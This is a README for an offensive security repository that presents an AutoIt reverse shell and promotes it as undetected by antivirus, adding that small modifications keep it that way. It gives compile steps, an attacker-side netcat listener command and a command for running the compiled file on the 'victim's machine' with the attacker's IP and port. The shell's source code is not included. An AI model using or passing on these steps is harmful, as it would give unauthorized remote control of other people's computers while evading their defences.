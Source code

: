 <div id="top"></div>
<div align="center">
  <a href="https://github.com/0xvinix/offensive-autoit">
    <img src="https://i.imgur.com/4Rapnym.png" alt="Logo" width="500" height="200">
  </a>

  <h3 align="center">Hacking AutoIt</h3>

  <p align="center">
    Simple AutoIt tools for offensive security.
    <br />
    <br />
  </p>
</div>
<br>

<!-- REVERSE SHELL -->
## Simple Reverse Shell

This is yet another simple TCP connection based reverse shell code, however, this is not detected by antivirus systems until today (23/03/2022). Possibly by its date of use, the code will already be quite detectable, but it only takes a few small modifications to make it not.

[![Everything Is AWESOME](https://yt-embed.herokuapp.com/embed?v=QEXk-N8lQ7g)](https://www.youtube.com/watch?v=QEXk-N8lQ7g "Simple Reverse Shell")

<br>
<h3> How to compile 🔨</h3>

To compile the code is very simple, you just need AutoIt v3 on your machine, which you can download from the link below.

https://www.autoitscript.com/site/autoit/downloads/

* cmd
  ```sh
  "C:\Program Files (x86)\AutoIt3\Aut2Exe\Aut2exe_x64.exe" /in "reverse_shell.au3" /console
  ```
<br>
<h3> Usage🔌</h3>

After compiling, just open a port using netcat.

* Attacker
  ```sh
  nc -vnlp 443
  ```
And on the victim's machine, run the compiled file passing your ip and port as an argument.

* Victim
  ```sh
  reverse_shell.exe 127.0.0.1 443
  ```
<br>
<h3> Av Detection (23/03/2022) 🐛</h3>

As already mentioned, until the date of creation of this repository, this code is completely undetectable by any antivirus.

<img src="https://antiscan.me/images/result/m3hwPh2nQ4dC.png">

<p align="right">(<a href="#top">back to top</a>)</p>
